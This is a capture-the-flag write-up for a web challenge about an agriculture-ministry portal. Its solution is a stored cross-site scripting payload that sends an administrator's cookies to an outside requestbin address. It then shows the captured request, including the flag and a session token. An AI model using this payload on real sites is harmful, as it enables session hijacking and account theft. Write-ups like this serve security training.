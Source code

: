 # Government Agriculture Network

## Descrption

Well it seems someone can't keep their work life and their home life separate. You vaguely recall on your home planet,
posters put up everywhere that said "Loose Zips sink large commercial properties with a responsibility to the
shareholders." You wonder if there is a similar concept here.

Using the credentials to access this so-called Agricultural network, you realize that SarahH was just hired as a vendor
or contract worker and given access that was equivalent. You can only assume that Vendor/Contractor is the highest
possible rank bestowed upon only the most revered and well regarded individuals of the land and expect information and
access to flow like the Xenovian acid streams you used to bathe in as a child.

The portal picture displays that small very attractive individual whom you instantly form a bond with, despite not
knowing. You must meet this entity! Converse and convince them you're meant to be! After a brief amount of time the
picture shifts into a biped presumably ingesting this creature! HOW DARE THEY. You have to save them, you have to stop
this from happening. Get more information about this Gubberment thing and stop this atrocity.

You need to get in closer to save them - you beat on the window, but you need access to the cauliflower's  host to
rescue it.

[https://govagriculture.web.ctfcompetition.com/](https://govagriculture.web.ctfcompetition.com/)

## Solution

On the Ministry of Agriculture site we create new posts which are reviewed by an administrator. From this we can guess
that we must steal their cookie. The following payload sends the cookies to our site:

```js
<script>
document.location='http://requestbin.net/r/YOUR_BIN?c=' + document.cookie;
</script>
```

The requestbin showed the following request:

```
GET /r/YOUR_BIN?c=flag=CTF{8aaa2f34b392b415601804c2f5f0f24e}; session=HWSuwX8784CmkQC1Vv0BXETjyXMtNQrV
```

Therefore the flag was `CTF{8aaa2f34b392b415601804c2f5f0f24e}`
